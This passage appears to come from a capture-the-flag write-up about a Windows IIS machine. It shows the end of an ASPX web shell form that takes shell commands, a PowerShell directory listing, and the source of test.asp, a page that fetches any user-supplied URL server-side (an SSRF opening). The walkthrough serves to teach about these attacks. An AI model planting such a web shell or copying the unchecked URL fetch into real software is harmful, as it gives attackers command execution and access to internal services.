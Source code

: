 ```
    response.write("Exit Status=" &t)
end if
%>
<form action="cmd.aspx" method=POST>
<p>Enter your shell command: <input type=text name=xcmd size=40> </form> </body> </html>

```

Not much else I can do with that now. I’ll notice that `test.asp` isn’t in the `C:\inetpub\wwwroot` directory. It’s actually in `C:\inetpub\public`:

```

Minion> ls -path \inetpub -Filter test.asp -recurse -erroraction silent

    Directory: C:\inetpub\public

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         8/10/2017  11:22 AM        463 test.asp 

```

So `C:\inetpub\public` seems to be the server on port 62696, and `C:\inetpub\wwwroot` is the one on 80 listening only on localhost.

This file does just what I thought, creating an `Msxml2.ServerXMLHTTP` object and using it to make a request, and returning the page:

```

<%
dim objHttp,strURL
if request("u") = "" then
   response.write "Missing Parameter Url [u] in GET request!"
else  
set objHttp = server.CreateObject("Msxml2.ServerXMLHTTP")
strURL = Request("u")
objHttp.open "GET", strURL, False
objHttp.Send

If objHttp.status = 200 Then
    Response.Expires = 90
    Response.ContentType = Request("mimeType")
    Response.BinaryWrite objHttp.responseBody
    set objHttp = Nothing
End If
 
end if
%>

```

#### sysadmscripts
